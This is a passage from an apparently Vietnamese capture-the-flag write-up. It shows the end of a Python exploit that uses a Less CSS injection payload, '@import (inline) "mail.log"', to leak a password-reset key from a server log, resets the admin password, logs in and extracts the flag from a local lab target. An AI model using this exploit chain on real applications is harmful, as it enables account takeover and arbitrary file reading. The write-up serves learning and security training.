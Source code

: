 ```py
        data = {
            "password": self.newPassword,
            "key": secret_key
        }
        response = requests.post(url=url, data=data, timeout=self.timeout)
        if "Reset Done" in response.text:
            print(f"[+] Reset Password Success")
            return True
        else:
            print(f"[-] Reset Password Failed")
            return False

    def login_get_flag(self):
        url = f"{self.baseURL}/login"
        data = {
            "username": "admin",
            "password": self.newPassword
        }
        response = requests.post(url=url, data=data, timeout=self.timeout)
        if response.status_code == 200:
            print(f"[+] Login Success: ", response.text, "\n")
        else:
            print(f"[-] Login Failed: ", response.text, "\n")

        flag = re.search(r"(flag\{.*?\})", response.text, re.IGNORECASE)
        if flag:
            print(f"[+] DONE FLAG HERE: \n", flag.group(1))
        else:
            print(f"[-] Not Flag")

    def run(self):
        self.trigger_reset_mail()
        self.leak_secret_key()
        css_text = self.fetch_image()
        if not css_text:
            print(f"[+] Not Found Key")
            return
        key = self.pass_reset_key(css_text)
        if not key:
            print(f"[-] Secret key regex not found")
            return
        print(f"[+] Got Key: ", key)
        self.pass_reset(key)
        self.login_get_flag()


if __name__ == "__main__":
    BASE_URL = "http://127.0.0.1:3000"
    newPassword = "123"
    payload = '#5C62D6;@import (inline) "mail.log";'
    timeout = 5.0
    exploit = Exploit(BASE_URL, newPassword, payload, timeout)
    exploit.run()
```
Ouput: <br>
<img width="626" height="347" alt="image" src="https://github.com/user-attachments/assets/76b05b6b-caed-4ac5-b444-f41e74459d76" /> <br>
## Kết Luận
Những gì tôi học được: <br>
> 1. Lợi dụng Less CSS Injection để đọc file tùy ý RCE
